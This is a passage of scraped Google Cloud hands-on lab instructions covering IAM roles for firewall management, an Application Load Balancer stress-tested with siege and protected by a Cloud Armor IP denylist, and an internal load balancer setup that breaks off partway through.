Explore these roles by applying them to a service account, which is a special Google account that belongs to your VM instance, instead of to an individual end user. Rather than creating a new user, you will authorize test-vm to use the service account to demonstrate the permissions of the Network Admin and Security Admin roles.
Verify current permissions
Currently, test-vm uses the Compute Engine default service account, which is enabled on all instances created by Cloud Shell command-line and the Cloud Console.
Try to list or delete the available firewall rules from test-vm.
Return to the SSH terminal of the test-vm instance.
Try to list the available firewall rules:
xxxxxxxxxxgcloud compute firewall-rules list
Copied!
The output should look like this:
xxxxxxxxxxERROR: (gcloud.compute.firewall-rules.list) Some requests did not succeed:- Insufficient Permission
Note: This should not work!
Try to delete the allow-http-web-server firewall rule:
xxxxxxxxxxgcloud compute firewall-rules delete allow-http-web-server
Copied!
Enter Y, if asked to continue.
The output should look like this:
xxxxxxxxxxERROR: (gcloud.compute.firewall-rules.delete) Could not fetch resource:- Insufficient Permission
Note: This should not work!
Note: The Compute Engine default service account does not have the right permissions to allow you to list or delete firewall rules. The same applies to other users who do not have the right roles.
Create a service account
Create a service account and apply the Network Admin role.
In the Console, navigate to Navigation menu (
Notice the Compute Engine default service account.
Click Create service account.
Set the Service account name to
Network-adminand click CREATE AND CONTINUE.For Select a role, select Compute Engine > Compute Network Admin and click CONTINUE then click DONE.
After creating the service account
Network-admin, click on the three dots at the right corner and click Manage Keys in the dropdown, then click on Add Key and select Create new key from the dropdown. Click Create to download your JSON output.Click Close.
A JSON key file download to your local computer. Find this key file, you will upload it into the VM in a later step.
Rename the JSON key file on your local machine to credentials.json
Test Completed Task
Click Check my progress to verify your performed task. If you have completed the task successfully you will be granted an assessment score.
Create a Network-admin service account.
Check my progress
Authorize test-vm and verify permissions
Authorize test-vm to use the Network-admin service account.
The Network Admin role provides permissions to:
Delete the available firewall rules
List the available firewall rules
Modify the available firewall rules
Neither list, create, modify, or delete the available firewall rules
Create a firewall rules
Submit
Return to the SSH terminal of the test-vm instance.
To upload credentials.json through the SSH VM terminal, click on the Upload file icon in the upper-right corner.
Select credentials.json and upload it.
Click Close in the File Transfer window.Note: If prompted, click Retry on the Connection via Cloud Identity-Aware Proxy Failed dialog and re-upload the file.
Authorize the VM with the credentials you just uploaded:
xxxxxxxxxxgcloud auth activate-service-account --key-file credentials.json
Copied!
Note: The image you are using has the Cloud SDK pre-installed; therefore, you don’t need to initialize the Cloud SDK. If you are attempting this lab in a different environment, make sure you have followed the procedures regarding installing the Cloud SDK.
Try to list the available firewall rules:
xxxxxxxxxxgcloud compute firewall-rules list
Copied!
The output should look like this:
xxxxxxxxxxNAME NETWORK DIRECTION PRIORITY ALLOW DENYallow-http-web-server default INGRESS 1000 tcp:80default-allow-icmp default INGRESS 65534 icmpdefault-allow-internal default INGRESS 65534 alldefault-allow-rdp default INGRESS 65534 tcp:3389default-allow-ssh default INGRESS 65534 tcp:22
This should work!
Try to delete the allow-http-web-server firewall rule:
xxxxxxxxxxgcloud compute firewall-rules delete allow-http-web-server
Copied!
Enter Y, if asked to continue.
The output should look like this:
xxxxxxxxxxERROR: (gcloud.compute.firewall-rules.delete) Could not fetch resource:- Required 'compute.firewall.delete' permission for 'projects/[PROJECT_ID]/global/firewall/allow-http-web-server'
Note: This should not work!
Note: As expected, the Network Admin role has permissions to list but not modify/delete firewall rules.
Update service account and verify permissions
Update the Network-admin service account by providing it the Security Admin role.
The Security Admin role, provides permissions to:
List the available firewall rules
Delete the available firewall rules
Modify the available firewall rules
Neither list, create, modify, or delete the available firewall rules
Create a firewall rules
Submit
In the Console, navigate to Navigation menu (
Find the Network-admin account. Focus on the Name column to identify this account.
Click on the pencil icon for the Network-admin account.
Change Role to Compute Engine > Compute Security Admin.
Click Save.
Return to the SSH terminal of the test-vm instance.
Try to list the available firewall rules:
xxxxxxxxxxgcloud compute firewall-rules list
Copied!
The output should look like this:
xxxxxxxxxxNAME NETWORK DIRECTION PRIORITY ALLOW DENYallow-http-web-server default INGRESS 1000 tcp:80default-allow-icmp default INGRESS 65534 icmpdefault-allow-internal default INGRESS 65534 alldefault-allow-rdp default INGRESS 65534 tcp:3389default-allow-ssh default INGRESS 65534 tcp:22
This should work!
Try to delete the allow-http-web-server firewall rule:
xxxxxxxxxxgcloud compute firewall-rules delete allow-http-web-server
Copied!
Enter Y, if asked to continue.
The output should look like this:
xxxxxxxxxxDeleted [https://www.googleapis.com/compute/v1/projects/qwiklabs-gcp-00e186e4b1cec086/global/firewall/allow-http-web-server].
This should work!
Note: As expected, the Security Admin role has permissions to list and delete firewall rules.
Verify the deletion of the firewall rule
Verify that you can no longer HTTP access the external IP of the blue server, because you deleted the allow-http-web-server firewall rule.
Return to the SSH terminal of the test-vm instance.
To test HTTP connectivity to blue's external IP, run the following command, replacing blue's external IP:
xxxxxxxxxxcurl -c 3 <Enter blue's external IP here>
Copied!
Note: This should not work!
Press CTRL+c to stop the HTTP request.
Note: Provide the Security Admin role to the right user or service account to avoid any unwanted changes to your firewall rules!
Congratulations!
In this lab, you created two nginx web servers and controlled external HTTP access using a tagged firewall rule. Then, you created a service account with first the Network Admin role and used the Security Admin role to explore the different permissions of these roles.
LAB - Application Load Balancer with Cloud Armor
Overview
Google Cloud Application Load Balancing is implemented at the edge of Google's network in Google's points of presence (POP) around the world. User traffic directed to an Application Load Balancer enters the POP closest to the user and is then load balanced over Google's global network to the closest backend that has sufficient capacity available.
Cloud Armor IP allowlist/denylist enable you to restrict or allow access to your Application Load Balancer at the edge of the Google Cloud, as close as possible to the user and to malicious traffic. This prevents malicious users or traffic from consuming resources or entering your Virtual Private Cloud (VPC) networks.
In this lab, you configure an Application Load Balancer with global backends, as shown in the diagram below. Then, you stress test the Load Balancer and denylist the stress test IP with Cloud Armor.
Objectives
In this lab, you learn how to perform the following tasks:
Create HTTP and health check firewall rules
Configure two instance templates
Create two managed instance groups
Configure an Application Load Balancer with IPv4 and IPv6
Stress test an Application Load Balancer
Denylist an IP address to restrict access to an Application Load Balancer
Setup and requirements
Before you click the Start Lab button
Read these instructions. Labs are timed and you cannot pause them. The timer, which starts when you click Start Lab, shows how long Google Cloud resources are made available to you.
This hands-on lab lets you do the lab activities in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials you use to sign in and access Google Cloud for the duration of the lab.
To complete this lab, you need:
Access to a standard internet browser (Chrome browser recommended).
Note: Use an Incognito (recommended) or private browser window to run this lab. This prevents conflicts between your personal account and the student account, which may cause extra charges incurred to your personal account.
Time to complete the lab—remember, once you start, you cannot pause a lab.
Note: Use only the student account for this lab. If you use a different Google Cloud account, you may incur charges to that account.
How to start your lab and sign in to the Google Cloud console
Click the Start Lab button. If you need to pay for the lab, a dialog opens for you to select your payment method. On the left is the Lab Details pane with the following:
The Open Google Cloud console button
Time remaining
The temporary credentials that you must use for this lab
Other information, if needed, to step through this lab
Click Open Google Cloud console (or right-click and select Open Link in Incognito Window if you are running the Chrome browser).
The lab spins up resources, and then opens another tab that shows the Sign in page.
*Tip:* Arrange the tabs in separate windows, side-by-side.
Note: If you see the Choose an account dialog, click Use Another Account.
If necessary, copy the Username below and paste it into the Sign in dialog.
xxxxxxxxxx"Username"Copied!
You can also find the Username in the Lab Details pane.
Click Next.
Copy the Password below and paste it into the Welcome dialog.
xxxxxxxxxx"Password"Copied!
You can also find the Password in the Lab Details pane.
Click Next.
Important: You must use the credentials the lab provides you. Do not use your Google Cloud account credentials.
Note: Using your own Google Cloud account for this lab may incur extra charges.
Click through the subsequent pages:
Accept the terms and conditions.
Do not add recovery options or two-factor authentication (because this is a temporary account).
Do not sign up for free trials.
After a few moments, the Google Cloud console opens in this tab.
Note: To access Google Cloud products and services, click the Navigation menu or type the service or product name in the Search field.
Task 1. Configure HTTP and health check firewall rules
Configure firewall rules to allow HTTP traffic to the backends and TCP traffic from the Google Cloud health checker.
Create the HTTP firewall rule
Create a firewall rule to allow HTTP traffic to the backends.
In the Cloud console, navigate to Navigation menu (
Notice the existing ICMP, internal, RDP, and SSH firewall rules.
Each Google Cloud project starts with the default network and these firewall rules.
Click Create Firewall Rule.
Set the following values, leave all other values at their defaults:
Property Value (type value or select option as specified) Name default-allow-http Network default Targets Specified target tags Target tags http-server Source filter IPv4 Ranges Source IPv4 ranges 0.0.0.0/0 Protocols and ports Specified protocols and ports, and then check TCP, type: 80
Make sure to include the /0 in the Source IPv4 ranges to specify all networks.
Click Create.
Create the health check firewall rules
Health checks determine which instances of a load balancer can receive new connections. For Application Load Balancing, the health check probes to your load balanced instances come from addresses in the ranges 130.211.0.0/22 and 35.191.0.0/16. Your firewall rules must allow these connections.
Still in the Firewall policies page, click Create Firewall Rule.
Set the following values, leave all other values at their defaults:
Property Value (type value or select option as specified) Name default-allow-health-check Network default Targets Specified target tags Target tags http-server Source filter IPv4 Ranges Source IPv4 ranges 130.211.0.0/22,35.191.0.0/16Protocols and ports Specified protocols and ports, and then check TCP Note: Make sure to enter the two Source IPv4 ranges one-by-one and press SPACE in between them.
Click Create.
Click Check my progress to verify the objective.
Configure HTTP and health check firewall rules
Check my progress
Task 2. Configure instance templates and create instance groups
A managed instance group uses an instance template to create a group of identical instances. Use these to create the backends of the Application Load Balancer.
Configure the instance templates
An instance template is an API resource that you use to create VM instances and managed instance groups. Instance templates define the machine type, boot disk image, subnet, labels, and other instance properties.
Create one instance template for Region 1 and one for Region 2.
In the Cloud console, go to Navigation menu (
For Name, type
Region 1-template.For Location, Select Global.
For Series, select E2.
For Machine Type, select e2-micro.
Click Advanced Options.
Click Networking. Set the following value and leave all other values at their defaults:
Property Value (type value or select option as specified) Network tags http-server Click default under Network interfaces. Set the following values and leave all other values at their defaults:
Property Value (type value or select option as specified) Network default Subnetwork default Region 1Click Done.
The network tag http-server ensures that the HTTP and Health Check firewall rules apply to these instances.
Click the Management tab.
Under Metadata, click + ADD ITEM and specify the following:
Key Value startup-script-url gs://cloud-training/gcpnet/httplb/startup.sh
The startup-script-url specifies a script that executes when instances are started. This script installs Apache and changes the welcome page to include the client IP and the name, region, and zone of the VM instance. Feel free to explore this script.
Click Create.
Wait for the instance template to be created.
Now create another instance template for subnet-b by copying Region 1-template:
Click on
Region 1-template and then click on the +CREATE SIMILAR option from the top.For Name, type
Region 2-template.Ensure Location is selected Global.
Click Advanced Options.
Click Networking.
Ensure http-server is added as a network tag.
In Network interfaces, for Subnetwork, select default (
Region 2).Click Done.
Click Create.
Create the managed instance groups
Create a managed instance group in Region 1 and one in Region 2.
Still in Compute Engine, click Instance groups in the left menu.
Click Create instance group.
Set the following values, leave all other values at their defaults:
Property Value (type value or select option as specified) Name Region 1-mig (if required, remove extra space from the name)Instance template Region 1-templateLocation Multiple zones Region Region 1Minimum number of instances 1 Maximum number of instances 2 Autoscaling signals > Click dropdown > Signal type CPU utilization Target CPU utilization 80, click Done. Initialization period 45
Managed instance groups offer autoscaling capabilities that allow you to automatically add or remove instances from a managed instance group based on increases or decreases in load. Autoscaling helps your applications gracefully handle increases in traffic and reduces cost when the need for resources is lower. You just define the autoscaling policy and the autoscaler performs automatic scaling based on the measured load.
Click Create.
Now repeat the same procedure to create a second instance group for Region 2-mig in Region 2:
Click Create Instance group.
Set the following values, leave all other values at their defaults:
Property Value (type value or select option as specified) Name Region 2-migInstance template Region 2-templateLocation Multiple zones Region Region 2Minimum number of instances 1 Maximum number of instances 2 Autoscaling signals > Click dropdown > Signal type CPU utilization Target CPU utilization 80, click Done. Initialization period 45 Click Create.
Click Check my progress to verify the objective.
Configure instance templates and instance group
Check my progress
Verify the backends
Verify that VM instances are being created in both regions and access their HTTP sites.
Still in Compute Engine, click VM instances in the left menu.
Notice the instances that start with
Region 1-mig andRegion 2-mig.These instances are part of the managed instance groups.
Click on the External IP of an instance of
Region 1-mig.You should see the Client IP (your IP address), the Hostname (starts with
Region 1-mig) and the Server Location (a zone inRegion 1).Click on the External IP of an instance of
Region 2-mig.You should see the Client IP (your IP address), the Hostname (starts with
Region 2-mig) and the Server Location (a zone inRegion 2).
Note: The Hostname and Server Location identifies where the Application Load Balancer sends traffic.
Which of these fields identify the region of the backend?
Client IP
Server Location
Hostname
Submit
Task 3. Configure the Application Load Balancer
Configure the Application Load Balancer to balance traffic between the two backends (Region 1-mig in Region 1 and Region 2-mig in Region 2), as illustrated in the network diagram:
Start the configuration
In the Cloud console, click Navigation menu (
click Create load balancer.
Under Application Load Balancer HTTP(S), click Next.
For Public facing or internal, select Public facing (external) and click Next.
For Global or single region deployment, select Best for global workloads and click Next.
For Create load balancer, click Configure.
Set Load Balancer Name to
http-lb.
Configure the frontend
The host and path rules determine how your traffic will be directed. For example, you could direct video traffic to one backend and static traffic to another backend. However, you are not configuring the Host and path rules in this lab.
Click on Frontend configuration.
Specify the following, leaving all other values at their defaults:
Property Value (type value or select option as specified) Protocol HTTP IP version IPv4 IP address Ephemeral Port 80 Click Done.
Click Add Frontend IP and port.
Specify the following, leaving all other values at their defaults:
Property Value (type value or select option as specified) Protocol HTTP IP version IPv6 IP address Auto-allocate Port 80 Click Done.
Application Load Balancing supports both IPv4 and IPv6 addresses for client traffic. Client IPv6 requests are terminated at the global load balancing layer, then proxied over IPv4 to your backends.
Configure the backend
Backend services direct incoming traffic to one or more attached backends. Each backend is composed of an instance group and additional serving capacity metadata.
Click on Backend configuration.
For Backend services & backend buckets, click Create a backend service.
Set the following values, leave all other values at their defaults:
Property Value (select option as specified) Name http-backend Instance group Region 1-migPort numbers 80 Balancing mode Rate Maximum RPS 50 Capacity 100
This configuration means that the load balancer attempts to keep each instance of Region 1-mig at or below 50 requests per second (RPS).
Click Done.
Click Add a backend.
Set the following values, leave all other values at their defaults:
Property Value (select option as specified) Instance group Region 2-migPort numbers 80 Balancing mode Utilization Maximum backend utilization 80 Capacity 100
This configuration means that the load balancer attempts to keep each instance of Region 2-mig at or below 80% CPU utilization.
Click Done.
For Health Check, select Create a health check.
Set the following values, leave all other values at their defaults:
Property Value (select option as specified) Name http-health-check Protocol TCP Port 80
Health checks determine which instances receive new connections. This HTTP health check polls instances every 5 seconds, waits up to 5 seconds for a response and treats 2 successful or 2 failed attempts as healthy or unhealthy, respectively.
Click Save.
Check the Enable Logging box.
Set the Sample Rate to
1.Click Create to create the backend service.
Click Ok.
Review and create the Application Load Balancer
Click on Review and finalize.
Review the Backend and Frontend services.
Click on Create.
Wait for the load balancer to be created.
Click on the name of the load balancer (http-lb).
Note the IPv4 and IPv6 addresses of the load balancer for the next task. They will be referred to as
[LB_IP_v4]and[LB_IP_v6], respectively.
Note: The IPv6 address is the one in hexadecimal format.
Click Check my progress to verify the objective.
Configure the Application Load Balancer
Check my progress
Task 4. Test the Application Load Balancer
Now that you created the Application Load Balancer for your backends, verify that traffic is forwarded to the backend service.
The Application Load Balancer should forward traffic to the region that is closest to you.
True
False
Access the Application Load Balancer
To test IPv4 access to the Application Load Balancer, open a new tab in your browser and navigate to http://[LB_IP_v4]. Make sure to replace [LB_IP_v4] with the IPv4 address of the load balancer.
Note: It might take up to 5 minutes to access the Application Load Balancer. In the meantime, you might get a 404 or 502 error. Keep trying until you see the page of one of the backends.
Note: Depending on your proximity to Region 1 and Region 2, your traffic is either forwarded to a Region 1-mig or Region 2-mig instance.
If you have a local IPv6 address, try the IPv6 address of the Application Load Balancer by navigating to http://[LB_IP_v6]. Make sure to replace [LB_IP_v6] with the IPv6 address of the load balancer.
Stress test the Application Load Balancer
Create a new VM to simulate a load on the Application Load Balancer using siege. Then, determine if traffic is balanced across both backends when the load is high.
In the console, navigate to Navigation menu (
Click Create instance.
In the Machine configuration:
Select the following values:
Property Value (type value or select option as specified) Name siege-vm Region Region 3Zone Zone 3Series E2
Given that Region 3 is closer to Region 1 than to Region 2, traffic should be forwarded only to Region 1-mig (unless the load is too high).
Click Create.
Wait for the siege-vm instance to be created.
For siege-vm, click SSH to launch a terminal and connect.
Run the following command, to install siege:
xxxxxxxxxxsudo apt-get -y install siege
Copied!
To store the IPv4 address of the Application Load Balancer in an environment variable, run the following command, replacing
[LB_IP_v4]with the IPv4 address:
xxxxxxxxxxexport LB_IP=[LB_IP_v4]
Copied!
To simulate a load, run the following command:
xxxxxxxxxxsiege -c 150 -t120s http://$LB_IP
Copied!
In the Cloud console, click Navigation menu (
Click Backends.
Click http-backend.
Navigate to http-lb.
Click on the Monitoring tab.
Monitor the Frontend Location (Total inbound traffic) between North America and the two backends for 2 to 3 minutes.
At first, traffic should just be directed to Region 1-mig but as the RPS increases, traffic is also directed to Region 2.
This demonstrates that by default traffic is forwarded to the closest backend but if the load is very high, traffic can be distributed across the backends.
Return to the SSH terminal of siege-vm.
Press CTRL+C to stop siege if it's still running.
The output should look like this:
xxxxxxxxxxNew configuration template added to /home/student-02-dd02c94b8808/.siegeRun siege -C to view the current settings in that file{ "transactions": 24729,"availability": 100.00,"elapsed_time": 119.07,"data_transferred": 3.77,"response_time": 0.66,"transaction_rate": 207.68,"throughput": 0.03,"concurrency": 137.64,"successful_transactions": 24729,"failed_transactions": 0,"longest_transaction": 10.45,"shortest_transaction": 0.03}
Task 5. Denylist the siege-vm
Use Cloud Armor to denylist the siege-vm from accessing the Application Load Balancer.
Create the security policy
Create a Cloud Armor security policy with a denylist rule for the siege-vm.
In the console, navigate to Navigation menu (
Note the External IP of the siege-vm. This will be referred to as
[SIEGE_IP].
Note: There are ways to identify the external IP address of a client trying to access your Application Load Balancer. For example, you could examine traffic captured by VPC Flow Logs in BigQuery to determine a high volume of incoming requests.
In the Cloud console, click Navigation menu (
Click Create policy.
Set the following values, leave all other values at their defaults:
Property Value (type value or select option as specified) Name denylist-siege Default rule action Allow Click Next step.
Click Add a rule.
Set the following values, leave all other values at their defaults:
Property Value (type value or select option as specified) Condition > Match Enter the SIEGE_IP Action Deny Response code 403 (Forbidden) Priority 1000 Click Save Change to Rule.
Click Next step.
Click Add Target.
For Type, select Backend service (external application load balancer).
For Target, select http-backend and if prompted confirm Replace.
Click Create policy.
Note: Alternatively, you could set the default rule to Deny and only allowlist or allow traffic from authorized users/IP addresses.
Wait for the policy to be created before moving to the next step.
Click Check my progress to verify the objective.
Denylist the siege-vm
Check my progress
Verify the security policy
Verify that the siege-vm cannot access the Application Load Balancer.
Return to the SSH terminal of siege-vm.
To access the load balancer, run the following:
xxxxxxxxxxcurl http://$LB_IP
Copied!
The output should look like this:
xxxxxxxxxx<!doctype html><meta charset="utf-8"><meta name=viewport content="width=device-width, initial-scale=1"><title>403</title>403 Forbidden
Note: It might take a couple of minutes for the security policy to take effect. If you are able to access the backends, keep trying until you get the 403 Forbidden error.
Open a new tab in your browser and navigate to
http://[LB_IP_v4]. Make sure to replace[LB_IP_v4]with the IPv4 address of the load balancer.
Note: You can access the Application Load Balancer from your browser because of the default rule to allow traffic; however, you cannot access it from the siege-vm because of the deny rule that you implemented.
Back in the SSH terminal of siege-vm, to simulate a load, run the following command:
xxxxxxxxxxsiege -c 150 -t120s http://$LB_IP
Copied!
The command will not generate any output.
Explore the security policy logs to determine if this traffic is also blocked.
In the console, navigate to Navigation menu > Network Security > Cloud Armor Policies.
Click denylist-siege.
Click Logs.
Click View policy logs.
On the Logging page, make sure to clear all the text in the Query preview. Select resource to Application Load Balancer > http-lb-forwarding-rule > http-lb then click Apply.
Now click Run Query.
Expand a log entry in Query results.
Expand httpRequest.
The request should be from the siege-vm IP address. If not, expand another log entry.
Expand jsonPayload.
Expand enforcedSecurityPolicy.
Notice that the configuredAction is to
DENYwith the namedenylist-siege.
Cloud Armor security policies create logs that can be explored to determine when traffic is denied and when it is allowed, along with the source of the traffic.
Congratulations!
You configured an Application Load Balancer with backends in Region 1 and Region 2. Then, you stress tested the Load Balancer with a VM and denylisted the IP address of that VM with Cloud Armor. You were able to explore the security policy logs to identify why the traffic was blocked.
LAB - Create an Internal Load Balancer
Overview
Google Cloud offers Internal Load Balancing for your TCP/UDP-based traffic. Internal Load Balancing enables you to run and scale your services behind a private load balancing IP address that is accessible only to your internal virtual machine instances.
In this lab you create two managed instance groups in the same region. Then, you configure and test an Internal Load Balancer with the instances groups as the backends, as shown in this network diagram:
Objectives
In this lab you learn how to perform the following tasks:
Create HTTP and health check firewall rules
Configure two instance templates
Create two managed instance groups
Configure and test an internal load balancer
Setup and requirements
Before you click the Start Lab button
Read these instructions. Labs are timed and you cannot pause them. The timer, which starts when you click Start Lab, shows how long Google Cloud resources are made available to you.
This hands-on lab lets you do the lab activities in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials you use to sign in and access Google Cloud for the duration of the lab.
To complete this lab, you need:
Access to a standard internet browser (Chrome browser recommended).
Note: Use an Incognito (recommended) or private browser window to run this lab. This prevents conflicts between your personal account and the student account, which may cause extra charges incurred to your personal account.
Time to complete the lab—remember, once you start, you cannot pause a lab.
Note: Use only the student account for this lab. If you use a different Google Cloud account, you may incur charges to that account.
How to start your lab and sign in to the Google Cloud console
Click the Start Lab button. If you need to pay for the lab, a dialog opens for you to select your payment method. On the left is the Lab Details pane with the following:
The Open Google Cloud console button
Time remaining
The temporary credentials that you must use for this lab
Other information, if needed, to step through this lab
Click Open Google Cloud console (or right-click and select Open Link in Incognito Window if you are running the Chrome browser).
The lab spins up resources, and then opens another tab that shows the Sign in page.
*Tip:* Arrange the tabs in separate windows, side-by-side.
Note: If you see the Choose an account dialog, click Use Another Account.
If necessary, copy the Username below and paste it into the Sign in dialog.
xxxxxxxxxx"Username"Copied!
You can also find the Username in the Lab Details pane.
Click Next.
Copy the Password below and paste it into the Welcome dialog.
xxxxxxxxxx"Password"Copied!
You can also find the Password in the Lab Details pane.
Click Next.
Important: You must use the credentials the lab provides you. Do not use your Google Cloud account credentials.
Note: Using your own Google Cloud account for this lab may incur extra charges.
Click through the subsequent pages:
Accept the terms and conditions.
Do not add recovery options or two-factor authentication (because this is a temporary account).
Do not sign up for free trials.
After a few moments, the Google Cloud console opens in this tab.
Note: To access Google Cloud products and services, click the Navigation menu or type the service or product name in the Search field.
Task 1. Configure HTTP and health check firewall rules
Configure firewall rules to allow HTTP traffic to the backends and TCP traffic from the Google Cloud health checker.
Explore the my-internal-app network
The network my-internal-app with subnet-a and subnet-b along with firewall rules for RDP, SSH, and ICMP traffic have been configured for you.
In the console, navigate to Navigation menu > VPC network > VPC networks.
Scroll down and notice the my-internal-app network with its subnets: subnet-a and subnet-b
Each Google Cloud project starts with the default network. In addition, the my-internal-app network has been created for you, as part of your network diagram.
You will create the managed instance groups in subnet-a and subnet-b. Both subnets are in the
REGIONregion because an Internal Load Balancer is a regional service. The managed instance groups will be in different zones, making your service immune to zonal failures.
Create the HTTP firewall rule
Create a firewall rule to allow HTTP traffic to the backends from the Load Balancer and the internet (to install Apache on the backends).
Still in VPC network, in the left pane click Firewall.
Notice the app-allow-icmp and app-allow-ssh-rdp firewall rules.
These firewall rules have been created for you.
Click + Create Firewall Rule.
Set the following values, leave all other values at their defaults:
Property Value (type value or select option as specified) Name app-allow-http Network my-internal-app Targets Specified target tags Target tags lb-backend Source filter IPv4 Ranges Source IPv4 ranges 10.10.0.0/16 Protocols and ports Specified protocols and ports, and then check tcp, type: 80
Note: Make sure to include the /16 in the Source IPv4 ranges to specify all networks.
Click Create.
Create the health check firewall rules
Health checks determine which instances of a Load Balancer can receive new connections. For Internal load balancing, the health check probes to your load balanced instances come from addresses in the ranges 130.211.0.0/22 and 35.191.0.0/16. Your firewall rules must allow these connections.
Still in the Firewall rules page, click + Create Firewall Rule.
Set the following values, leave all other values at their defaults:
Property Value (type value or select option as specified) Name app-allow-health-check Network my-internal-app Targets Specified target tags Target tags lb-backend Source filter IPv4 Ranges Source IPv4 ranges 130.211.0.0/22 and 35.191.0.0/16 Protocols and ports Specified protocols and ports, and then check tcp
Note: Make sure to enter the two Source IPv4 ranges one-by-one and pressing SPACE in between them.
Click Create.
Click Check my progress to verify the objective.
Configure HTTP and health check firewall rules
Check my progress
Task 2. Configure instance templates and create instance groups
A managed instance group uses an instance template to create a group of identical instances. Use these to create the backends of the Internal Load Balancer.
Configure the instance templates
An instance template is an API resource that you can use to create VM instances and managed instance groups. Instance templates define the machine type, boot disk image, subnet, labels, and other instance properties. Create an instance template for both subnets of the my-internal-app network.
In the Console, navigate to Navigation menu > Compute Engine > Instance templates.
Click Create instance template.
For Name, type instance-template-1.
For Location, Select Global.
For Series, select E2.
For Machine type, select Shared-core > e2-micro.
Click Advanced options.
Click Networking.
For Network tags, specify lb-backend.
Note: The network tag lb-backend ensures that the HTTP and Health Check firewall rules apply to these instances.
For Network interfaces, click the dropdown icon to edit.
Set the following values, leave all other values at their defaults:
Property Value (type value or select option as specified) Network my-internal-app Subnetwork subnet-a External IPv4 Address None Click Done.
Click Management.
Under Metadata, click Add item and specify the following:
Key 1 Value 1 startup-script-url gs://cloud-training/gcpnet/ilb/startup.sh
Note: The startup-script-url specifies a script that will be executed when instances are started. This script installs Apache and changes the welcome page to include the client IP and the name, region and zone of the VM instance. Feel free to explore this script.
Click Create.
Wait for the instance template to be created.
Configure the next instance template
Create another instance template for subnet-b by copying instance-template-1:
Still in Instance templates, check the box next to instance-template-1, then click Copy. Make sure to update the name as instance-template-2.
Click Advanced options.
Click the Networking tab.
For Network interfaces, click the dropdown icon to edit.
Select subnet-b as the Subnetwork.
Click Done and then click Create.
Create the managed instance groups
Create a managed instance group in subnet-a and one subnet-b.
Note: Identify one of the other zones in the same region as subnet-a. For example, if your zone of subnet-a is us-west2-a, you could select us-west2-b for subnet-b.
Still in Compute Engine, in the left pane click Instance groups, and then click Create Instance group.
Set the following values, leave all other values at their defaults:
Property Value (type value or select option as specified) Name instance-group-1 Instance template instance-template-1 Location Single-zone Region REGIONZone ZONEAutoscaling > Minimum number of instances 1 Autoscaling > Maximum number of instances 5 Autoscaling > Autoscaling signals (click the dropdown icon to edit) > Signal type CPU utilization Target CPU utilization 80 Initialization period 45
Note: Managed instance groups offer autoscaling capabilities that allow you to automatically add or remove instances from a managed instance group based on increases or decreases in load. Autoscaling helps your applications gracefully handle increases in traffic and reduces cost when the need for resources is lower. You just define the autoscaling policy and the autoscaler performs automatic scaling based on the measured load.
Click Create.
Repeat the same procedure for instance-group-2 in the different zone of same region as subnet-a:
Click Create Instance group.
Set the following values, leave all other values at their defaults:
Property Value (type value or select option as specified) Name instance-group-2 Instance template instance-template-2 Location Single-zone Region REGIONZone Zone (Use the different zone in same region as subnet-a) Autoscaling > Minimum number of instances 1 Autoscaling > Maximum number of instances 5 Autoscaling > Autoscaling signals (click the dropdown icon to edit) > Signal type CPU utilization Target CPU utilization 80 Initialization period 45 Click Create.
Verify the backends
Verify that VM instances are being created in both subnets and create a utility VM to access the backends' HTTP sites.
Still in Compute Engine, click VM instances.
Notice two instances that start with
instance-group-1andinstance-group-2.These instances are in separate zones and their internal IP addresses are part of the subnet-a and subnet-b CIDR blocks.
To create a new instance, click Create Instance.
In the Machine configuration.
Select the following values:
Property Value (type value or select option as specified) Name utility-vm Region REGIONZone ZONESeries E2Machine Type e2-micro(1 shared vCPU)Click Networking.
For Network interfaces, click Toggle to Edit network interface.
Specify the following:
Property Value (type value or select option as specified) Network my-internal-app Subnetwork subnet-a Primary internal IPv4 address Ephemeral (Custom) Custom ephemeral IP address 10.10.20.50 Click Done and then click Create.
Click Check my progress to verify the objective.
Configure instance templates and create instance groups
Check my progress
Note that the internal IP addresses for the backends are
10.10.20.2and10.10.30.2.
Note: If these IP addresses are different, replace them in the two curl commands below.
For utility-vm, click SSH to launch a terminal and connect.
To verify the welcome page for
instance-group-1-xxxx, run the following command:
xxxxxxxxxxcurl 10.10.20.2
Copied!
The output should look like this:
xxxxxxxxxx<h1>Internal Load Balancing Lab</h1><h2>Client IP</h2>Your IP address : 10.10.20.50<h2>Hostname</h2>Server Hostname:instance-group-1-1zn8<h2>Server Location</h2>Region and Zone: us-central1-a
To verify the welcome page for
instance-group-2-xxxx, run the following command:
xxxxxxxxxxcurl 10.10.30.2
Copied!
The output should look like this:
xxxxxxxxxx<h1>Internal Load Balancing Lab</h1><h2>Client IP</h2>Your IP address : 10.10.20.50<h2>Hostname</h2>Server Hostname:instance-group-2-q5wp<h2>Server Location</h2>Region and Zone: us-central1-b
Which of these fields identify the location of the backend?
Server Hostname
Server Location
Client IP
Submit
Note: The curl commands demonstrate that each VM instance lists the Client IP and its own name and location. This will be useful when verifying that the Internal Load Balancer sends traffic to both backends.
Close the SSH terminal to utility-vm:
xxxxxxxxxxexit
Copied!
Task 3. Configure the Internal Load Balancer
Configure the Internal Load Balancer to balance traffic between the two backends (instance-group-1 and instance-group-2), as illustrated in this diagram:
Start the configuration
From the Navigation Menu, select View All Products. Under Networking, select Network Services.
Select the Load balancing page.
Click Create load balancer.
For Type of load balancer, select Network Load Balancer (TCP/UDP/SSL).
For Proxy or passthrough, select Passthrough load balancer.
For Public facing or internal, select Internal.
Click CONFIGURE.
For Name, type
my-ilb.For Region, select
REGION.For Network, select my-internal-app.
Configure the regional backend service
The backend service monitors instance groups and prevents them from exceeding configured usage.
Click on Backend configuration.
Set the following values, leave all other values at their defaults:
Property Value (select option as specified) Instance group instance-group-1 Click Add a backend.
For Instance group, select instance-group-2.
For Health Check, select Create a health check.
Set the following values, leave all other values at their defaults:
Property Value (select option as specified) Name my-ilb-health-check Protocol TCP Port 80
Note: Health checks determine which instances can receive new connections. This HTTP health check polls instances every 5 seconds, waits up to 5 seconds for a response and treats 2 successful or 2 failed attempts as healthy or unhealthy, respectively.
Click Save.
Verify that there is a blue check mark next to Backend configuration in the Cloud Console. If not, double-check that you have completed all the steps above.
Configure the frontend
The frontend forwards traffic to the backend.
Click on Frontend configuration.
Specify the following, leaving all other values with their defaults:
Property Value (type value or select option as specified) Subnetwork subnet-b Internal IP Under IP address select Create IP address Specify the following, leaving all other values with their defaults:
